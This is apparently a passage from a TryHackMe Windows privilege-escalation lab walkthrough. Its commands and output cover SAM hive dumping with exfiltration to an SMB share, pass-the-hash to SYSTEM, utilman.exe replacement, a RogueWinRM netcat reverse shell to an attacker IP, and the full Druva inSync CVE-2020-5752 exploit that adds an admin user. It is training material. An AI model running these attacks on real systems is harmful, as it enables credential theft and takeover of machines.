└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:THMBackup /p:CopyMaster555 /h:960 /w:1500 +clipboard 
[15:20:00:039] [153593:153594] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[15:20:00:039] [153593:153594] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[15:20:00:216] [153593:153594] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
<---snip--->
```

Create an elevated cmd.exe shell and save the registry hives

```bat
C:\Windows\System32> cd C:\Users\THMBackup

C:\Users\THMBackup> reg save hklm\system system.hive
The operation completed successfully.

C:\Users\THMBackup> reg save hklm\sam sam.hive
The operation completed successfully.

C:\Users\THMBackup>
```

Next, we create an SMB-share on our Kali machine

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public ~/smb_share
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Note that the username and password is **the same** as the current user.

Now we can just copy the registry hives to the share:

```bat
C:\Users\THMBackup> copy system.hive \\192.168.187.183\public
        1 file(s) copied.

C:\Users\THMBackup> copy sam.hive \\192.168.187.183\public
        1 file(s) copied.
```

Back at the Kali machine we can now extract the hashes:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ mv ~/smb_share/*.hive .                

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ impacket-secretsdump LOCAL -sam sam.hive -system system.hive 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 
```

With the Administrator-hash we can now use a Pass-the-Hash to connect to the machine with higher privileges

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 Administrator@$TARGET_IP
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.67.153.14.....
[*] Found writable share ADMIN$
[*] Uploading file YsDewqdX.exe
[*] Opening SVCManager on 10.67.153.14.....
[*] Creating service daOi on 10.67.153.14.....
[*] Starting service daOi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

Note that we are running as **SYSTEM** rather than as **Administrator**.

Finally, we can get the flag.

```bash
C:\Windows\system32> cd C:\Users\Administrator\Desktop
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

05/04/2022  12:58 PM    <DIR>          .
05/04/2022  12:58 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/04/2022  12:59 PM                20 flag.txt
               3 File(s)          1,101 bytes
               2 Dir(s)  25,276,776,448 bytes free

C:\Users\Administrator\Desktop> type flag.txt
THM{<REDACTED>}
C:\Users\Administrator\Desktop> 
```

Answer: `THM{<REDACTED>}`

#### Get the flag on the Administrator's desktop (SeTakeOwnership version)

We start by connecting with RDP to the target machine:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ export TARGET_IP=10.65.182.60

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:THMTakeOwnership /p:TheWorldIsMine2022 /h:960 /w:1500 +clipboard 
[10:16:24:998] [21192:21198] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[10:16:24:998] [21192:21198] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[10:16:24:128] [21192:21198] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
<---snip--->
```

Next, we check our privileges from an **elevated** cmd.exe window

```bat
C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

C:\Windows\system32>
```

Note that we have the **SeTakeOwnershipPrivilege** privilege.

We take ownership of the `utilman.exe` binary

```bat
C:\Windows\system32> takeown /f Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\system32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".

C:\Windows\system32>
```

and grant ourselves full privileges on the binary

```bat
C:\Windows\system32> icacls Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Then we replace `utilman.exe` with `cmd.exe`

```bat
C:\Windows\system32> copy cmd.exe utilman.exe
Overwrite utilman.exe? (Yes/No/All): Y
        1 file(s) copied.
```

Next, we trigger utilman.exe/cmd.exe by locking the screen and accessing the **Ease of access** icon.



The result is a cmd.exe window running with **SYSYEM** privileges.



#### Get the flag on the Administrator's desktop (SeImpersonate / SeAssignPrimaryToken version)

We start by browsing/connecting to port 80 on the machine where we have a web shell:


Checking our privileges we can see we have **SeImpersonate** and **SeAssignPrimaryToken** privileges



There is no need to download anything since both netcat and the RougeWinRM-exploit is available under `C:\Tools`



Next, we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

And trigger the exploit with `c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 192.168.187.183 12345"`



Back at our netcat listener we have a connection running with **SYSTEM** privileges

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.187.183] from (UNKNOWN) [10.65.182.60] 50012
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

### Task 7: Abusing vulnerable software

Make sure to click the **Start Machine** button before you continue, which will deploy the target machine in split-view.

If you prefer connecting to the machine via RDP, you can use the following credentials:

- **Username**: thm-unpriv
- **Password**: Password321

#### Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):

```bat
wmic product get name,version,vendor
```

Remember that the `wmic product` command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or plain old [Google](https://www.google.com/), amongst many others.

Using `wmic` and Google, can you find a known vulnerability on any installed product?

#### Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).

The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.

In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.

The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.

A patch was issued, where they decided to check that the executed command started with the string `C:\ProgramData\Druva\inSync4\`, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute `C:\Windows\System32\cmd.exe`, which is not in the allowed path; you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and that would bypass the check successfully.

To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:


The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.

Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

```bat
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:

```bat
PS C:\> net user pwnd
User name                    pwnd
Full Name
Account active               Yes
[...]

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

As a last step, you can run a command prompt as administrator:


When prompted for credentials, use the `pwnd` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command `type C:\Users\Administrator\Desktop\flag.txt`.

---------------------------------------------------------------------------------------

#### Get the flag on the Administrator's desktop (Unpatched Software version)

We start by connecting with RDP to the target machine:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ export TARGET_IP=10.65.158.61                                                                           

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/Windows_Privilege_Escalation]
└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:thm-unpriv /p:Password321 /h:960 /w:1500 +clipboard 
[11:53:55:774] [69111:69112] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[11:53:55:775] [69111:69112] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
<---snip--->
```

Launch a cmd.exe window and search for installed software

```bat
C:\Users\thm-unpriv> wmic product get name,version,vendor
Name                                                            Vendor                                   Version
AWS Tools for Windows                                           Amazon Web Services Developer Relations  3.15.1248
VNC Server 6.8.0                                                RealVNC                                  6.8.0.45849
Amazon SSM Agent                                                Amazon Web Services                      3.0.529.0
Microsoft Visual C++ 2022 X64 Minimum Runtime - 14.40.33816     Microsoft Corporation                    14.40.33816
aws-cfn-bootstrap                                               Amazon Web Services                      2.0.5
Druva inSync 6.6.3                                              Druva Technologies Pte. Ltd.             6.6.3.0
Microsoft Visual C++ 2022 X64 Additional Runtime - 14.40.33816  Microsoft Corporation                    14.40.33816
AWS PV Drivers                                                  Amazon Web Services                      8.3.4
```

Next, we update the exploit code in `C:\tools\Druva_inSync_exploit.txt` to use `net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add` instead of the original `net user pwnd /add` $cmd command and save the file as `C:\tools\Druva_inSync_exploit_fixed.ps1`

```powershell
C:\Users\thm-unpriv>type C:\tools\Druva_inSync_exploit_fixed.ps1
# Exploit Title: Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)
# Date: 2020-12-03
# Exploit Author: 1F98D
# Original Author: Matteo Malvica
# Vendor Homepage: druva.com
# Software Link: https://downloads.druva.com/downloads/inSync/Windows/6.6.3/inSync6.6.3r102156.msi
# Version: 6.6.3
# Tested on: Windows 10 (x64)
# CVE: CVE-2020-5752
# References: https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/
# Druva inSync exposes an RPC service which is vulnerable to a command injection attack.

$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
C:\Users\thm-unpriv>
```

Then we trigger the exploit

```bat
C:\Users\thm-unpriv>powershell.exe -File C:\tools\Druva_inSync_exploit_fixed.ps1
22
4
4
280
```

And verify that we have a new user

```bat
C:\Users\thm-unpriv>net user pwned
The user name could not be found.

More help is available by typing NET HELPMSG 2221.


C:\Users\thm-unpriv> net user pwnd
User name                    pwnd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/20/2025 11:04:56 AM
Password expires             1/31/2026 11:04:56 AM
Password changeable          12/20/2025 11:04:56 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

We can now run an elevated cmd.exe with these new credentials:



```bat
C:\Windows\system32> whoami
wprivesc3\pwnd

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{EZ_DLL_PROXY_4ME}
C:\Windows\system32>
```

### Task 8: Tools of the Trade

Several scripts exist to conduct system enumeration in ways similar to the ones seen in the previous task. These tools can shorten the enumeration process time and uncover different potential privilege escalation vectors. However, please remember that automated tools can sometimes miss privilege escalation.

Below are a few tools commonly used to identify privilege escalation vectors. Feel free to run them against any of the machines in this room and see if the results match the discussed attack vectors.

#### WinPEAS

WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the **precompiled executable** or a `.bat` script. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file, as shown below:

```bat
C:\> winpeas.exe > outputfile.txt
```

WinPEAS can be downloaded [here](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

#### PrivescCheck

PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.

PrivescCheck can be downloaded [here](https://github.com/itm4n/PrivescCheck).

**Reminder**: To run PrivescCheck on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can use the Set-ExecutionPolicy cmdlet as shown below.

```powershell
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```

### WES-NG: Windows Exploit Suggester - Next Generation

Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use WES-NG, which will **run on your attacking machine** (e.g. Kali or TryHackMe AttackBox).

WES-NG is a Python script that can be found and downloaded [here](https://github.com/bitsadmin/wesng).

Once installed, and before using it, type the `wes.py --update` command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a `.txt` file you will need to move to your attacking machine.

Once this is done, wes.py can be run as follows;

```bash
user@kali$ wes.py systeminfo.txt
```

#### Metasploit

If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

---------------------------------------------------------------------------------------

### Task 9: Conclusion

In this room, we have introduced several privilege escalation techniques available in Windows systems. These techniques should provide you with a solid background on the most common paths attackers can take to elevate privileges on a system. Should you be interested in learning about additional techniques, the following resources are available:

- [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)
- [RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)
- [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [Decoder's Blog](https://decoder.cloud/)
- [Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
- [Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)

For additional information, please see the references below.

## References

- [AccessChk - Homepage](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
- [cmdkey - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey)
- [Exploit (computer security) - Wikipedia](https://en.wikipedia.org/wiki/Exploit_(computer_security))
- [File and Folder Permissions - icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks)
- [File and Folder Permissions - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/bb727008(v=technet.10))
- [findstr - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)
- [icacls - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
- [Msfvenom - Metasploit Docs](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- [Msfvenom - Kali Tools](https://www.kali.org/tools/metasploit-framework/#msfvenom)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [Priv2Admin - GitHub](https://github.com/gtworek/Priv2Admin)
- [Privilege Constants (Authorization) - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
- [Privilege escalation - Wikipedia](https://en.wikipedia.org/wiki/Privilege_escalation)
- [reg query - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)
- [RogueWinRM - GitHub](https://github.com/antonioCoco/RogueWinRM)
- [runas - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc771525(v=ws.11))
- [Sc.exe query - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query)
- [Sc qc - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc742055(v=ws.11))
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
